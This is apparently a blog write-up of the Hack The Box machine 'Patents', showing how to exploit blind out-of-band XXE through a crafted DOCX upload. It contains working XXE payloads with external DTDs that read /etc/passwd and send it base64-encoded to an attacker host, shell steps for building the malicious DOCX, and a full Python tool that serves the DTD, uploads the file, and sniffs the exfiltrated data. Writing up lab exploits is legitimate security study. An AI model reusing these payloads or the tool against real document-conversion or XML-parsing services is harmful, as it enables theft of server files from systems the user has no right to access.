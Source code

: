 ```yaml
---
layout: post
title: "Playing with HTB{ Patents }"
date: 2020-05-16 19:00:00 +0300
author: snovvcrash
categories: /pentest
tags: [notes, hackthebox, machine, linux, docx, xxe, python, scapy]
comments: true
published: true
---
```


Automate crafting malicious DOCX for blind XXE-OOB with external DTD.

<!--cut-->

<p align="right">
	<a href="https://www.hackthebox.eu/home/machines/profile/224"><img src="https://img.shields.io/badge/%e2%98%90-Hack%20The%20Box-8ac53e?style=flat-square" alt="htb-badge.svg" /></a>
	<span class="score-hard">7.8/10</span>
</p>

![banner.png](/assets/images/htb/machines/patents/banner.png)
{:.center-image}

![info.png](/assets/images/htb/machines/patents/info.png)
{:.center-image}

* TOC
{:toc}

# XXE

## Manual exploitation

### Way 1. General entity payload

`customXml/item1.xml`:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY % xxe SYSTEM "http://10.10.15.131:1337/ext.dtd">
%xxe;
%ext;
]>
<foo>&exfil;</foo>
```

External file `ext.dtd` (hosted on local machine):

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % ext "<!ENTITY exfil SYSTEM 'http://10.10.15.131:1337/?x=%file;'>">
```

### Way 2. Parameter entity payload

`customXml/item1.xml`:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY>
<!ENTITY % xxe SYSTEM "http://10.10.15.131:1337/ext.dtd">
%xxe;
]>
<foo></foo>
```

External file `ext.dtd` (hosted on local machine):

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % ext "<!ENTITY &#x25; exfil SYSTEM 'http://10.10.15.131:1337/?x=%file;'>">
%ext;
%exfil;
```

### Malicious DOC/DOCX

Get `docx` sample and unpack it:

```
root@kali:$ curl https://file-examples.com/wp-content/uploads/2017/02/file-sample_100kB.docx > sample.docx
root@kali:$ unzip sample.docx
```

Create `customXml/` dir with a payload and pack it back:

```
root@kali:$ mkdir customXml
root@kali:$ vi customXml/item1.xml
...
root@kali:$ rm malicious.docx; zip -r malicious.docx '[Content_Types].xml' customXml/ docProps/ _rels/ word/
```

![manual-exploit-out-1.png](/assets/images/htb/machines/patents/manual-exploit-out-1.png)
{:.center-image}

![manual-exploit-out-2.png](/assets/images/htb/machines/patents/manual-exploit-out-2.png)
{:.center-image}

## Automate with Scapy

Scripting all the stuff to run simple HTTP server and Scapy HTTP sniffer in separate threads:

```python
#!/usr/bin/env python3

import re
import cmd
import socket
import fcntl
import struct
from base64 import b64decode
from threading import Thread
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer

# http.server.BaseHTTPRequestHandler VS http.server.SimpleHTTPRequestHandler
# socketserver.TCPServer VS http.server.HTTPServer

import requests
from scapy.all import *

M = '\033[%s;35m'  # MAGENTA
S = '\033[0m'      # RESET

URL = 'http://patents.htb/convert.php'


class SilentHTTPRequestHandler(SimpleHTTPRequestHandler):
	"""
	https://stackoverflow.com/a/3389505/6253579
	https://stackoverflow.com/a/10651257/6253579
	"""

	def log_request(self, code='-', size='-'):
		return


class HTTPServerInThread(Thread):

	def __init__(self, address='0.0.0.0', port=1337):
		super().__init__()
		self.address = address
		self.port = port
		self.httpd = TCPServer((address, port), SilentHTTPRequestHandler)

	def run(self):
		print(f'[*] Serving HTTP on {self.address} port {self.port} (http://{self.address}:{self.port}/) ...')
		self.httpd.serve_forever()


class HTTPSniffer(Thread):

	def __init__(self, iface='tun0'):
		super().__init__()
		self.iface = iface
		self.re = re.compile(r'/\?x=(\S+)')

	def run(self):
		# Wireshark filter: "http.request.method == GET && tcp.port == 1337"
		sniff(iface=self.iface, filter='tcp dst port 1337', prn=self.process_http)

	def process_http(self, pkt):
		try:
			req_text = pkt[Raw].load.decode()
			if '/?x=' in req_text:
				contents_b64 = self.re.search(req_text).group(1)
				print(b64decode(contents_b64).decode())
		except IndexError:
			pass


class Default(dict):

	def __missing__(self, key):
		return '{' + key + '}'


class Terminal(cmd.Cmd):

	prompt = f'{M%0}XXE{S}> '

	def __init__(self, proxies=None):
		super().__init__()

		self.headers = {
			'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0',
			'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
			'Accept-Language': 'en-US,en;q=0.5',
			'Accept-Encoding': 'gzip, deflate'
		}

		self.ext_dtd = """\
			<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource={filename}">
			<!ENTITY % ext "<!ENTITY &#x25; exfil SYSTEM 'http://{ip}:1337/?x=%file;'>">
			%ext;
			%exfil;
		""".replace('\t', '').format_map(Default({"ip": self._get_ip()}))

		if proxies:
			self.proxies = {'http': proxies}
		else:
			self.proxies = {}

	def do_file(self, filename):
		with open('/root/htb/boxes/patents/xxe/ext.dtd', 'w') as f:
			f.write(self.ext_dtd.format(filename=filename))

		files = {
			'userfile': ('test.docx', open('/root/htb/boxes/patents/xxe/docx/malicious.docx', 'rb'), 'application/vnd.openxmlformats-officedocument.wordprocessingml.document'),
			'submit': (None, 'Generate pdf')
		}

		resp = requests.post(URL, files=files)

	def do_EOF(self, args):
		print()
		return True

	def emptyline(self):
		pass

	def _get_ip(self, iface='tun0'):
		s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
		return socket.inet_ntoa(fcntl.ioctl(
			s.fileno(),
			0x8915,  # SIOCGIFADDR
			struct.pack('256s', iface[:15].encode())
		)[20:24])


if __name__ == '__main__':
	server = HTTPServerInThread()
	server.daemon = True
	server.start()

	sniffer = HTTPSniffer()
	sniffer.daemon = True
	sniffer.start()

	Terminal().cmdloop()
```

![xxe-py-out.png](/assets/images/htb/machines/patents/xxe-py-out.png)
{:.center-image}

# Refs

* [What is a blind XXE attack? Tutorial & Examples / Web Security Academy](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-exfiltrate-data-out-of-band)
* [Out-of-band XML External Entity (OOB-XXE) / Acunetix](https://www.acunetix.com/blog/articles/band-xml-external-entity-oob-xxe/)
* [bh-eu-13-XML-data-osipov-slides.pdf](https://media.blackhat.com/eu-13/briefings/Osipov/bh-eu-13-XML-data-osipov-slides.pdf)
* [XXE Attacks— Part 1: XML Basics - klose - Medium](https://medium.com/@klose7/https-medium-com-klose7-xxe-attacks-part-1-xml-basics-6fa803da9f26)
* [Exploiting XXE with local DTD files](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)
* [Sample .doc and .docx download / File Examples Download](https://file-examples.com/index.php/sample-documents-download/sample-doc-download/)
* [c# - VSTO Word 2013 add in - Add Custom XML to document xml without it being visible on the page - Stack Overflow](https://stackoverflow.com/a/38797399/6253579)
* [python - How to quiet SimpleHTTPServer? - Stack Overflow](https://stackoverflow.com/a/10651257/6253579)
* [python - Leaving values blank if not passed in str.format - Stack Overflow](https://stackoverflow.com/a/19800610/6253579)
